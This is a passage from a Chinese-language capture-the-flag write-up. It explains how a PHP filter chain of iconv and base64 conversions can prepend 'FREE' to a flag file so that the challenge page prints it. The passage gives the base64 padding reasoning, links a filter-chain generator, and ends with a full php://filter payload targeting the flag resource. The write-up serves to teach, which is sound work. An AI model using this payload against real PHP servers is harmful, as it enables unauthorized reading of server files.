 ```php
                die('nothing here');
            }
        } 
    ?>
```

所以我们的思路还是比较明确，在他用`file_get_contents()` 函数从请求的文件中读取内容的时候，在flag文件的开头加一个 “FREE” 这样就能让php输出$article_content的内容。

所以这里就利用了filter链的构造，详细看这个项目：

https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

当然也有可以直接用来梭的脚本：

https://github.com/synacktiv/php_filter_chain_generator

原理我们稍后做阐释，这里要做的是利用filter链在包含flag的文件前生成 "FREE"关键字 让php执行

`echo "<article>$article_content</article>";`从而输出包含的flag。

要注意的是，FREE的base64编码为"`RlJFRQ==`"

我们需要保证我们加入的字符和flag文件的字符能够被正常解码

即 我们得保证base64解码前 文件内容不是 (**因为convert.iconv.UTF8.UTF7会消掉等号**）

"`RlJFRQUFJFTUlVTSAtIGlkZWt7VGg0bmtfVV80X1N1YnNjUjFiMW5nX3QwX291cl9uM3dzUEhQYXBlciF9`"

否则你读不到flag，只会得到这个：

![img](https://nssctf.wdf.ink//img/WDTJ/202302072109036.png)

base64的编码原理,3位一组不足的话得补=，所以这里FREE还得补上两个字符，使得所得的base64没有"=".确保后面的内容解码成功。

（当然只要满足开头为FREE且flag前面为3的整数倍字符就行x）

所以构造的fitter链如下：

```php
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=flag
```

![img](https://nssctf.wdf.ink//img/WDTJ/202302072109954.png)
